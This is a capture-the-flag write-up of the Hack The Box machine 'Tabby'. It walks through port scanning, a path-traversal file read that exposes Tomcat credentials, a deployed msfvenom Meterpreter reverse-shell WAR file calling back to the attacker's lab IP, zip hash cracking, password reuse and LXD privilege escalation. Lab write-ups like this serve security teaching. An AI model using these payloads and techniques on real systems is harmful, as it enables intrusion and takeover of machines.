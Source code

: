 ```yaml
---
layout: single
title: Tabby - Hack The Box
excerpt: "Tabby was an easy box with simple PHP arbitrary file ready, some password cracking, password re-use and abusing LXD group permissions to instantiate a new container as privileged and get root access. I had some trouble finding the tomcat-users.xml file so installed Tomcat locally on my VM and found the proper path for the file."
date: 2022-11-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-tabby/tabby_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - php
  - lfi
  - tomcat
  - password cracking
  - zip
  - password re-use
  - lxd
---
```


![](/assets/images/htb-writeup-tabby/tabby_logo.png)

Tabby was an easy box with simple PHP arbitrary file ready, some password cracking, password re-use and abusing LXD group permissions to instantiate a new container as privileged and get root access. I had some trouble finding the tomcat-users.xml file so installed Tomcat locally on my VM and found the proper path for the file.

## Portscan

```
snowscan@kali:~/htb/tabby$ sudo nmap -sC -sV -p- 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 23:13 EDT
Nmap scan report for tabby.htb (10.10.10.194)
Host is up (0.018s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website - Port 80

There's a website running on the server with a typical hosting provider landing page.

![](/assets/images/htb-writeup-tabby/image-20200621231450618.png)

## Website - Port 8080

There's a default Tomcat installation on port 8080 but the password for the manager page has been changed and we can't log in.

![](/assets/images/htb-writeup-tabby/image-20200621231615067.png)

![](/assets/images/htb-writeup-tabby/image-20200621231712434.png)

## Find Tomcat credentials with PHP LFI

On the main website there's a link to a statement about some previous security breach: `http://megahosting.htb/news.php?file=statement`

![](/assets/images/htb-writeup-tabby/image-20200621231829387.png)

There's a very obvious arbitrary file read vulnerability in the `news.php` file and we can read any file with path traversal. Here I grabbed `/etc/passwd` and found the `ash` user:

![](/assets/images/htb-writeup-tabby/image-20200621232009306.png)

The Tomcat credentials are usually stored in the `tomcat-users.xml` file. I looked for it in `/etc/tomcat9/tomcat-users.xml` but the file wasn't there so instead I installed Tomcat locally and checked where it could be hidden:

```
snowscan@kali:/$ find / -name tomcat-users.xml 2>/dev/null
/etc/tomcat9/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
```

![](/assets/images/htb-writeup-tabby/image-20200621232523769.png)

We  got the credentials: `tomcat / $3cureP4s5w0rd123!`

## Getting a shell with a WAR file

I can't log in to the Tomcat manager even with the credentials.

![](/assets/images/htb-writeup-tabby/image-20200621232743387.png)

But I can log in to the host-manager:

![](/assets/images/htb-writeup-tabby/image-20200621232848021.png)

I'll generate a WAR file with msfvenom to get a reverse shell:

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f war -o met.war LHOST=10.10.14.11 LPORT=4444
```

To deploy the WAR file payload I'll use `https://pypi.org/project/tomcatmanager/`

![](/assets/images/htb-writeup-tabby/image-20200621233339795.png)

Then I'll get the file name of the JSP file generated:

![](/assets/images/htb-writeup-tabby/image-20200621233433491.png)

Browsing to `http://10.10.10.194:8080/met/vjreafuiffq.jsp` I can trigger the meterpreter shell:

![](/assets/images/htb-writeup-tabby/image-20200621233731397.png)

## Priv esc to user ash

In the website folder there's a backup zip file:

![](/assets/images/htb-writeup-tabby/image-20200621233913483.png)

The file is encrypted but we can crack the hash:

![](/assets/images/htb-writeup-tabby/image-20200621234129261.png)

There isn't anything interesting in the zip file but the same password is used by the ash user:

![](/assets/images/htb-writeup-tabby/image-20200621234231636.png)

## Privesc

Ash is a member of the `lxd` group:

![](/assets/images/htb-writeup-tabby/image-20200621234322444.png)

Members of the `lxd` group can create containers and by creating a container as privileged we can access the host filesystem with root privileges.

I'll upload an small Alpine Linux image, import it, then launch a new instance as privileged then I can read the flag from the host OS.

![](/assets/images/htb-writeup-tabby/image-20200621235145325.png)

![](/assets/images/htb-writeup-tabby/image-20200621235323717.png)

![](/assets/images/htb-writeup-tabby/image-20200621235444013.png)